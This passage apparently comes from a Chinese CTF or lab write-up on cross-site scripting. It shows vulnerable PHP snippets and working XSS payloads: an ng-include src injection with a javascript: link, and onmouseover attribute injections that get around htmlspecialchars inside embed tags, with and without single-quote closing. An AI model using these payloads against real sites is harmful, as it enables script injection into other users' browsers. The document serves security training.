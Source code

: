 

```bash
<span class="ng-include:"></span></div>
```

构造好payload:

```bash
index.php?src='a.php?name=<a href="javascript:alert(9)">'
```

### Dom型XSS

#### 第一题

```bash
ini_set("display_errors", 0);
$gc=htmlspecialchars($_GET["arg"]);
```



```bash
<embed id=em src=yp.mp3?gc= loop="15"  autostart="true"/>
```

没有引号，无需闭合

```bash
/index.php?arg=123 onmouseover='alert(1)'
```

#### 第二题

```bash
ini_set("display_errors", 0);
$gc=htmlspecialchars($_GET["arg"]);
```



```bash
<embed id=em src='1537.mp4?gc=' loop="15"  width="800" height="600" autostart="true"/>
<embed id=em src='1537.mp4?gc=<?=$gc?>' loop="15"  width="800" height="600" autostart="true"/>

```

单引号闭合

```bash
?arg=1' onmouseover='alert(1)' '
```


